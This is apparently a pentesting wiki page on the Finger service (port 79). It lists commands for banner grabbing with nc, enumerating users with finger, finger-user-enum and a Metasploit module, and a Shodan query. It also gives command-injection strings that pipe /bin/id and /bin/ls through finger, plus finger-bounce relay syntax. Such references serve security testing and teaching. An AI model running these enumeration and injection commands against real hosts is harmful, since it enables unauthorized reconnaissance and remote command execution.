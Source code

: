# 79 - Pentesting Finger

 

## **Basic Info**

**Finger** is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively you can use **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

* `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```

 
